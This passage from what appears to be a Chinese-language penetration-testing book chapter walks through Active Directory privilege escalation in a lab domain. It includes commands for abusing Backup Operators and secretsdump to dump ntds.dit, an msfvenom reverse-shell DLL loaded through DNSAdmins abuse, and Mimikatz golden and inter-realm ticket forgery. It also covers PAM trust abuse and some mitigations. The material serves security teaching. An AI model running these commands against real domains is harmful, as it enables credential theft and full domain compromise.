现在我们将进入实际操作。*Backup Operators*组（**S-1-5-32-551**）的权限显然源自组名：备份和恢复文件，尽管这些文件可能已经设置了权限。默认情况下，该组为空。为了引入此漏洞，我将把 lord.varys 用户添加到该组中。漏洞利用本身非常简单，涉及三个步骤：连接到远程注册表、打开注册表 Hive 并将它们保存到本地或远程位置。注册表 Hive 包括`SAM`、`SYSTEM`和`SECURITY`。然后，攻击者可以利用`secretsdump`工具（来自**impacket**）并使用域控制器的机器账户哈希值来转储 ntds.dit 文件。利用代码可以在这里找到[14]。首先，让我们运行利用代码，并将注册表 Hive 保存到我们可以访问的文件夹（也可以是 UNC 路径）中：

```
BackupOperatorToDA.exe -t \\kingslanding.sevenkingdoms.local -o C:\Users\Public\ -u lord.varys -p "_W1sper_$" -d sevenkingdoms.local
```

命令执行的结果如下截图所示：


图 6.26 – 成功转储注册表 Hive

下一步是提取域控制器的机器账户哈希，并转储 ntds.dit 文件：

```
secretsdump.py LOCAL -system SYSTEM -sam SAM -security SECURITY
secretsdump.py 'sevenkingdoms.local/kingslanding$@kingslanding.sevenkingdoms.local' -hashes aad3b435b51404eeaad3b435b51404ee:7c2c64aebfd101d8927632960df23179 -just-dc
```

结果，哈希值成功转储：


图 6.27 – 从域控制器转储了 ntds.dit 文件

下一个示例将演示如何仅通过成为*DNSAdmins*安全组的成员，实现在域控制器上以`SYSTEM`身份执行远程代码。

## DNSAdmins 滥用（CVE-2021-40469）

如果攻击者是*DNSAdmins*组的成员，则可以触发 DNS 服务器加载我们选择的 DLL 并在`SYSTEM`上下文下执行它。DLL 的路径在`ServerLevelPluginDll`值中提供，也可以是 UNC 路径。

注意

本发现的作者博客文章可以在这里找到：`medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83`。

为了演示这个技巧，我将把 jon.snow 用户添加到`north.sevenkingdoms.local`域的 DNSAdmins 组中。我们的利用路径是生成带有反向 Shell 的 DLL，并将其放置在`castelblack`服务器的`Public`共享文件夹中。然后，添加插件，等待 DNS 服务器重启，并在我们的 Kali 机器上获取反向 Shell：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.56.100 LPORT=443 -f dll > legit.dll
dnscmd.exe winterfell /Config /ServerLevelPluginDll \\castelblack\public\legit.dll
```

在 DNS 服务器重启后，我们获得了以`SYSTEM`身份在域控制器上执行的反向 Shell：


图 6.28 – 成功利用 CVE-2021-40469，在域控制器上获得反向 Shell 并以 SYSTEM 身份执行

接下来，我们将讨论从子域到父域的权限提升问题。同时，我们还将简要讨论 PAM 信任和堡垒域的概念。

## 子域/父域特权提升

在之前的一次攻击中，我们能够导出 `north.sevenkingdoms.local` 域的 `ntds.dit`。现在，我们可以在伪造的票证中添加额外的 SID，以便提升特权到父域。为了成功伪造票证，我们需要两个域的 SID —— 金票证的 krbtgt 哈希值和跨域票证的信任密钥。以下命令将找到域 SID，并借助 Mimikatz 伪造金票证：

```
Get-DomainSID -Domain north.sevenkingdoms.local
Get-DomainSID -Domain sevenkingdoms.local
kerberos::golden /user:Administrator /domain:north.sevenkingdoms.local /sid:S-1-5-21-3600105556-770076851-109492085 /sids:S-1-5-21-4243769114-3325725031-2403382846-519 /krbtgt:35400f589a2614495ab9cfcdd0b89eba /ptt
```

`/sid` 是子域的 SID。`/sids` 是父域中 `Enterprise Admins` 的 SID。结果是可以通过 CIFS 访问父域中的域控制器：


图 6.29 – 伪造的金票证提供对父域中域控制器的访问

第二种选择是创建一个使用信任密钥加密的 TGT（目标票证）推荐票证。信任密钥的名称格式为 `domain$`。伪造跨域票证的命令如下：

```
kerberos::golden /user:Administrator /domain:north.sevenkingdoms.local /sid:S-1-5-21-3600105556-770076851-109492085 /sids:S-1-5-21-4243769114-3325725031-2403382846-519 /rc4:b595f2a41d4579ae6faa122b74b37ccb /service:krbtgt /target:sevenkingdoms.local /ptt
```

以下结果与伪造金票证获得的结果相同：


图 6.30 – 伪造的跨域票证提供对父域中域控制器的访问

有一种方法可以防止这种特权提升漏洞——在子域和父域之间启用 SID 过滤。如果我们不需要 SID 历史记录，可以出于兼容性考虑禁用它。

注意

由 *Improsec* 的研究人员撰写的一篇优秀博客文章中，展示了失败攻击的例子 ([`improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-3-sid-filtering-explained`](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-3-sid-filtering-explained))。

然而，其他同一公司进行的研究表明，并非所有的 SID 都会被过滤，因此在子域中的特权应当仔细审查 ([`improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-4-bypass-sid-filtering-research`](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-4-bypass-sid-filtering-research))。另一个 SID 过滤绕过方法是，子域控制器上的 `SYSTEM` 可以将 GPO 链接到父站点，即使启用了 SID 过滤，它也会被复制。

## 特权访问管理

**特权访问管理**（**PAM**）不是一个新概念，它是由微软引入的，作为**增强型安全管理环境**（**ESAE**）模型的一部分，ESAE 还包括**恰到好处的管理**（**JEA**）和**微软身份管理器**（**MIM**）。其理念是为管理员创建一个强化的堡垒森林（红森林），并通过使用单向**特权身份管理（PIM）**信任将其连接到生产森林。提醒一下，信任的方向与访问的方向是相反的。对生产森林的管理访问是由堡垒森林中的**影子主体**管理的。来自堡垒森林的用户被添加到影子主体组中，因此这些组会映射到生产森林中的特权组。可以设置**生存时间**（**TTL**）值来减少特权访问时间。这使得无需交互式登录、组成员身份和 ACL 更改即可管理生产森林。

注意

关于如何部署堡垒森林并建立 PIM 信任的一个极好的指南可以在这里找到：[`petri.com/windows-server-2016-set-privileged-access-management/`](https://petri.com/windows-server-2016-set-privileged-access-management/)。

来自 ADModule 的以下命令将检查当前森林是否具有 PAM 信任或是否由堡垒森林管理，并列举**影子安全主体**：

```
Get-ADTrust -Filter {(ForestTransitive -eq $True) -and (SIDFilteringQuarantined -eq $False)}
Get-ADTrust -Filter {(ForestTransitive -eq $True)}
Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | l
```

+   作为攻击者，我们的目标是妥协**影子安全主体**成员或滥用 SID 历史。

注意

关于持久性的大量技巧由*Nikhil Mittal*在这篇博客文章中分享：[`www.labofapenetrationtester.com/2019/04/abusing-PAM.xhtml`](http://www.labofapenetrationtester.com/2019/04/abusing-PAM.xhtml)。

明显的方法是将用户添加到现有的影子安全主体容器中。然而，这在特权组审核过程中很容易被发现。更隐蔽的方法是授予低特权用户**写成员**权限，允许其访问影子主体对象。对生产森林的访问尝试通过登录/注销事件进行记录，但根据用户帐户的不同，可能会触发警报。

# 概要

在本章中，我们介绍了攻击者如何在域内提升权限。我们从那些能够瞬间授予最高权限的致命漏洞开始讨论。定期修补和漏洞管理可以帮助减轻这种攻击途径。接下来，我们讨论了针对域对象的各种 ACL 滥用。我们回顾了最常见的特权升级路径，并附上了实际示例。特别关注了 GPO 滥用，因为组策略可以在整个域中部署，从而为攻击者提供横向移动、特权提升和持久化机会。我们还讨论了在某个组成员被攻破时，内建域组可以用于特权提升的情形。最后，我们讨论了通过子域与父域之间的信任关系进行特权提升的情况。此外，我们简要提到了 PAM 信任主题以及可能的配置错误，这些错误可能破坏整个 ESAE 模型。

在下一章中，我们将讨论攻击者如何在域中实现持久性。了解攻击者如何维持对域的访问至关重要。

# 参考资料

1.  MS14-068 漏洞利用: [`github.com/mubix/pykek`](https://github.com/mubix/pykek)

1.  Zerologon 中继场景: [`dirkjanm.io/a-different-way-of-abusing-zerologon/`](https://dirkjanm.io/a-different-way-of-abusing-zerologon/)

1.  Zerologon 更改密码场景: [`www.thehacker.recipes/ad/movement/netlogon/zerologon`](https://www.thehacker.recipes/ad/movement/netlogon/zerologon)

1.  Zerologon 漏洞利用: [`github.com/VoidSec/CVE-2020-1472`](https://github.com/VoidSec/CVE-2020-1472) 和 [`github.com/dirkjanm/CVE-2020-1472`](https://github.com/dirkjanm/CVE-2020-1472)

1.  Printnightmare 利用约束: [`www.thehacker.recipes/ad/movement/print-spooler-service/printnightmare#constraints`](https://www.thehacker.recipes/ad/movement/print-spooler-service/printnightmare#constraints)

1.  Printnightmare 漏洞利用: [`github.com/cube0x0/CVE-2021-1675`](https://github.com/cube0x0/CVE-2021-1675)

1.  Windows 版本 noPac 漏洞利用: [`github.com/cube0x0/noPac`](https://github.com/cube0x0/noPac)

1.  Linux 版本 noPac 漏洞利用: [`github.com/WazeHell/sam-the-admin`](https://github.com/WazeHell/sam-the-admin)

1.  Local potato: [`decoder.cloud/2023/02/13/localpotato-when-swapping-the-context-leads-you-to-system/`](https://decoder.cloud/2023/02/13/localpotato-when-swapping-the-context-leads-you-to-system/)

1.  Remote Potato0: [`github.com/antonioCoco/RemotePotato0`](https://github.com/antonioCoco/RemotePotato0)

1.  ACL 思维导图: [`www.thehacker.recipes/ad/movement/dacl`](https://www.thehacker.recipes/ad/movement/dacl)

1.  SharpGPOAbuse 工具: [`github.com/FsecureLABS/SharpGPOAbuse`](https://github.com/FsecureLABS/SharpGPOAbuse)

1.  打印操作员特权提升：[`neutronsec.com/privesc/windows/print_operators/`](https://neutronsec.com/privesc/windows/print_operators/)

1.  从备份操作员到域管理员的漏洞利用：[`github.com/mpgn/BackupOperatorToDA`](https://github.com/mpgn/BackupOperatorToDA)

# 进一步阅读

这些进一步学习的资源将帮助你深入了解本章中讨论的攻击：

+   我强烈建议你阅读这篇博客文章，因为它深入探讨了 Remote Potato 攻击路径是如何被发现的，以及一般的研究思维方式：[`www.sentinelone.com/labs/relaying-potatoes-another-unexpected-privilege-escalation-vulnerability-in-windows-rpc-protocol/`](https://www.sentinelone.com/labs/relaying-potatoes-another-unexpected-privilege-escalation-vulnerability-in-windows-rpc-protocol/)。

+   Remote Potato 漏洞利用的一个良好演示：[`pentestlab.blog/2021/05/04/remote-potato-from-domain-user-to-enterprise-admin/`](https://pentestlab.blog/2021/05/04/remote-potato-from-domain-user-to-enterprise-admin/)

+   有关组策略结构的 Microsoft 文档：[`learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gpod/260b58dc-da14-400b-8b82-6abbfd529fbf`](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gpod/260b58dc-da14-400b-8b82-6abbfd529fbf)

+   Microsoft PowerShell GP-Link 命令参考：[`learn.microsoft.com/en-us/powershell/module/grouppolicy/new-gplink?view=windowsserver2022-ps`](https://learn.microsoft.com/en-us/powershell/module/grouppolicy/new-gplink?view=windowsserver2022-ps)
